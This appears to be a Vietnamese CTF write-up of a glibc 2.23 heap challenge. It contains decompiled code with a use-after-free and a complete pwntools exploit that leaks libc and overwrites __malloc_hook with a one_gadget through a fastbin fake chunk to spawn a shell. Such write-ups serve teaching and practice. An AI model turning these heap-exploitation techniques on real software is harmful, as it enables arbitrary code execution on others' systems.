

### Thông tin file:
```c
└─$ ls
libc.2.23.so  pwn2_df
```
```c
└─$ file pwn2_df 
pwn2_df: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter ./ld-2.23.so, for GNU/Linux 3.2.0, BuildID[sha1]=448d3beedfd5ae424f8d857ba8b2e06eb7e09591, not stripped
```
```c
└─$ checksec --file=pwn2_df 
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      Symbols   FORTIFY  Fortified       Fortifiable     FILE
Full RELRO      Canary found      NX enabled    PIE enabled     No RPATH   No RUNPATH   85 Symbols  No     0               2               pwn2_df
```

heap1

___
Code của chương trình:
`main()`:
```c
void main(void)
{
  int option;
  
  initState();
  puts("Ez heap challange !");
  do {
    menu();
    option = readInt();
    switch(option) {
    default:
      puts("no option");
      break;
    case 1:
      createHeap;
      break;
    case 2:
      showHeap();
      break;
    case 3:
      editHeap();
      break;
    case 4:
      deleteHeap(0);
      break;
    case 5:
      exit(0);
    }
  } while( true );
}
```
Các functions chính:
* `createHeap()`
* `showHeap()`
* `editHeap()`
* `deleteHeap(0)`
  
`createHeap()`:
```c
undefined8 createHeap(void)
{
  int idx;
  uint size;
  char **ptr;
  
  printf("Index:");
  idx = readInt();
  if ((-1 < idx) && (idx < 10)) {
    printf("Input size:");
    size = readInt();
    if (4096 < size) {
      exit(0);
    }
    ptr = (char **)malloc((ulong)size);
    (&store)[idx] = ptr;
    (&storeSize)[idx] = size;
    printf("Input data:");
    readStr((&store)[idx],size);
    puts("Done");
    return 0;
  }
  exit(0);
}
```
* có tổng 10 chunks có thể tạo được, từ index: 0 -> 9
* `&store` và `&storeSize` là vùng nhớ trên .bss của binary, với:
	* `&store`: lưu lại con trỏ trả lại của các chunk cấp phát
 	* `&storeSize`: lưu	lại size của các chunk (mỗi size chiếm 4 bytes)
`showHeap()`:
```c
undefined8 showHeap(void)
{
  int idx;
  
  printf("Index:");
  idx = readInt();
  if ((-1 < idx) && (idx < 10)) {
    if ((&store)[idx] != (char **)0x0) {
      printf("Data = %s\n",(&store)[idx]);
    }
    return 0;
  }
  exit(0);
}
```
* `printf("Data = %s\n",(&store)[idx])`: in dữ liệu trong chunk => có thể dùng để leak libc
`editHeap()`:
```c
undefined8 editHeap(void)
{
  int idx;
  
  printf("Input index:");
  idx = readInt();
  if ((idx < 10) && (-1 < idx)) {
    if ((&store)[idx] != (char **)0x0) {
      readStr((&store)[idx],(&storeSize)[idx]);
      puts("Done ");
    }
    return 0;
  }
  exit(0);
}
```
* `readStr((&store)[idx],(&storeSize)[idx]);`: cho phép overwrite lại dữ liệu trong chunk 
`deleteHeap()`:
```c
undefined8 deleteHeap(void)
{
  int idx;
  
  printf("Input index:");
  idx = readInt();
  if ((idx < 10) && (-1 < idx)) {
    if ((&store)[idx] != (char **)0x0) {
      free((&store)[idx]);
      puts("Done ");
    }
    return 0;
  }
  exit(0);
}
```
* `free((&store)[idx]);`: giải phóng chunk vào bins

___
### Exploit:



```asm
pwndbg> p/x 0x7f5e2219bb10 - 0x23
$9 = 0x7f5e2219baed
pwndbg> x/4gx  0x7f5e2219baed
0x7f5e2219baed <_IO_wide_data_0+301>:   0x5e2219a260000000      0x000000000000007f
0x7f5e2219bafd: 0x5e21e79b00000000      0x5e21e79aa000007f
pwndbg> 
0x7f5e2219bb0d <__realloc_hook+5>:      0x000000000000007f      0x0000000000000000
0x7f5e2219bb1d: 0x0100000000000000      0x0000000000000000
pwndbg> 
0x7f5e2219bb2d <main_arena+13>: 0x0000000000000000      0x0000000000000000
0x7f5e2219bb3d <main_arena+29>: 0x0000000000000000      0x0000000000000000
```

heapwin
___
`script.py`:
```python
from pwn import *

libc = ELF("./libc.2.23.so", checksec=False)

context.binary = exe = ELF("./pwn2_df_patched", checksec=False)
context.log_level = "debug"

def GDB():
	gdb.attach(p, gdbscript='''
		handle SIGALRM ignore
		br createHeap
		br *createHeap + 115
		br *createHeap + 234
		br showHeap
		br *showHeap + 133
		br editHeap
		br deleteHeap
		br *deleteHeap + 123
		br *__malloc_hook

		# heap check:
		# heap [-v]
		# vis
		# vmmap
		# x/4gx &store
		# x/4gx &storeSize
		# p &__malloc_hook
		''')

p = process(exe.path)
# GDB()

def createHeap(idx, size, data):
	p.sendlineafter(b">", b"1")
	p.sendlineafter(b"Index:", idx)
	p.sendlineafter(b"size:", size)
	p.sendlineafter(b"data:", data)

def showHeap(idx):
	p.sendlineafter(b">", b"2")
	p.sendlineafter(b"Index:", idx)

def editHeap(idx, data):
	p.sendlineafter(b">", b"3")
	p.sendlineafter(b"index:", idx)
	p.sendline(data)

def deleteHeap(idx):
	p.sendlineafter(b">", b"4")
	p.sendlineafter(b"index:", idx)

# big chunk to unsortedbin
createHeap(b'0', b'1040', b'A'*8)
# avoid consolidation
createHeap(b'1', b'16', b'B'*8)

deleteHeap(b'0')

# leak fd/bk ptr 
showHeap(b'0')

# calculate offsets
p.recvuntil(b"=")
leak_libc = p.recvline().strip()
leak_libc = u64(leak_libc.ljust(8, b"\x00"))
print(f"leak_libc: {hex(leak_libc)}")

libc.address = leak_libc - 0x39bb78

print(f"libc_base: {hex(libc.address)}")

malloc_hook = libc.address + 0x39bb10
fake_chunk = libc.sym['__malloc_hook'] - 0x23
realloc = libc.sym['realloc']

print(f"malloc_hook: {hex(malloc_hook)}")
print(f"fake_chunk: {hex(fake_chunk)}")

# GDB()
createHeap(b'2', b'96', b'C'*8) # 0x60 --> 0x70
deleteHeap(b'2')

editHeap(b'2', p64(fake_chunk))

createHeap(b'3', b'96', b'D'*8)

# 0x3f3d6 / 0x3f42a / 0xd5bf7
one_gadget = libc.address + 0xd5bf7

# payload = b'A' * 19 + p64(one_gadget)
payload = b'A' * 11 + p64(one_gadget) + p64(realloc + 14)
createHeap(b'4', b'96', payload)

GDB()
p.sendlineafter(b">", b"1")
p.sendlineafter(b"Index:", b'5')
p.sendlineafter(b"size:", b'10')

p.interactive()
```
___
